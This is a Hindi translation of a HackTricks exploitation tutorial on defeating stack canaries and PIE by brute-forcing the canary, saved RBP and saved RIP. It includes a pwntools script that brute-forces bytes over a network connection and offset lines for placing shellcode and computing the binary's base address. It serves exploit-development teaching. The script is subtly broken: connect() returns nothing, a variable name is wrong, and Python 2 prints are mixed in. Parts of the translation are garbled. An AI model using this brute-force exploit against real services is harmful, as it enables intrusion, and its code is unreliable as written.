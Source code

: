 # स्टैक में बीएफ पतों का पता लगाना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

**यदि आपके सामने एक कैनरी और PIE (पोजीशन इंडिपेंडेंट एक्जीक्यूटेबल) द्वारा संरक्षित बाइनरी है, तो आपको उन्हें उम्मीद से बाहर करने का एक तरीका खोजने की आवश्यकता होगी।**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पता लगा सकता कि एक बाइनरी को कैनरी द्वारा संरक्षित किया गया है अगर यह स्थाई रूप से कॉम्पाइल किया गया था और यह फ़ंक्शन को पहचानने की क्षमता नहीं है।\
हालांकि, आप इसे मैन्युअल रूप से नोट कर सकते हैं अगर आपको लगता है कि किसी मान को फ़ंक्शन कॉल की शुरुआत में स्टैक में सहेजा गया है और इस मान की जांच की जाती है पहले निकलने से पहले।
{% endhint %}

## ब्रूट-फ़ोर्स पतों

**PIE को बाहर करने** के लिए आपको **कुछ पतों को लीक करने** की आवश्यकता है। और यदि बाइनरी को कोई पते नहीं लीक कर रहा है तो सबसे अच्छा यह है कि आप **वलनरेबल फ़ंक्शन में स्टैक में सहेजे गए RBP और RIP को ब्रूट-फ़ोर्स करें।**\
उदाहरण के लिए, यदि एक बाइनरी को एक **कैनरी** और **PIE** का उपयोग करके संरक्षित किया गया है, तो आप कैनरी को ब्रूट-फ़ोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट (x64) सहेजे गए **RBP** होंगे और **अगले** 8 बाइट सहेजे गए **RIP** होंगे।

{% hint style="success" %}
समझा जाता है कि स्टैक में वापसी पता मुख्य बाइनरी कोड का हिस्सा है, जो, यदि वंशावली बाइनरी कोड में स्थित है, तो आम तौर पर मामला होगा।
{% endhint %}

बाइनरी से RBP और RIP को ब्रूट-फ़ोर्स करने के लिए आप यह तय कर सकते हैं कि एक मान्य अनुमानित बाइट सही है अगर प्रोग्राम कुछ आउटपुट करता है या यह बस क्रैश नहीं होता। ब्रूट-फ़ोर्सिंग के लिए प्रदान किए गए वही फ़ंक्शन कैनरी को ब्रूट-फ़ोर्स करने के लिए उपयोग किया जा सकता है जितना कि RBP और RIP को ब्रूट-फ़ोर्स करने के लिए:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
आपको PIE को परास्त करने के लिए आखिरी चीज़ यह है कि **लीक हुए पतों से उपयोगी पतों की गणना करें**: **RBP** और **RIP**।

**RBP** से आप **स्टैक में अपनी शैल कहाँ लिख रहे हैं** यह गणना कर सकते हैं। यह जानना बहुत उपयोगी हो सकता है कि आप स्टैक के अंदर _"/bin/sh\x00"_ स्ट्रिंग को कहाँ लिखने जा रहे हैं। लीक हुए RBP और अपने शैलकोड के बीच की दूरी की गणना करने के लिए आप बस एक **ब्रेकपॉइंट डाल सकते हैं जब RBP लीक हो जाए** और चेक कर सकते हैं कि **आपका शैलकोड कहाँ स्थित है**, फिर, आप शैलकोड और RBP के बीच की दूरी की गणना कर सकते हैं:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP** से आप **PIE binary का base address** की गणना कर सकते हैं जो आपको **एक वैध ROP chain बनाने की आवश्यकता है**।
बेस एड्रेस की गणना के लिए बस `objdump -d vunbinary` करें और नवीनतम पते का डिसएंबल जांचें:

![](<../../../.gitbook/assets/image (479).png>)

उस उदाहरण में आप देख सकते हैं कि सभी कोड को ढूंढने के लिए केवल **1 बाइट और आधा** आवश्यक है, फिर, इस स्थिति में बेस एड्रेस लीक RIP होगा लेकिन "000" पर समाप्त होगा। उदाहारण के लिए अगर आपने `0x562002970ecf` लीक किया है तो बेस एड्रेस `0x562002970000` होगा।
```python
elf.address = RIP - (RIP & 0xfff)
```
## सुधार

[**इस पोस्ट से कुछ अवलोकन के अनुसार**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), यह संभव है कि RBP और RIP मानों को लीक करते समय, सर्वर क्रैश नहीं होगा जब कुछ मान गलत हों जो सही नहीं हैं और BF स्क्रिप्ट सोचेगा कि उसने सही मान प्राप्त किए हैं। यह इसलिए है क्योंकि संभावना है कि **कुछ पते इसे तोड़ नहीं पाएंगे भले ही वे बिल्कुल सही न हों**।

उस ब्लॉग पोस्ट के अनुसार सुझाव दिया गया है कि सर्वर के बीच अनुरोधों के बीच एक छोटी देरी जोड़ना चाहिए।

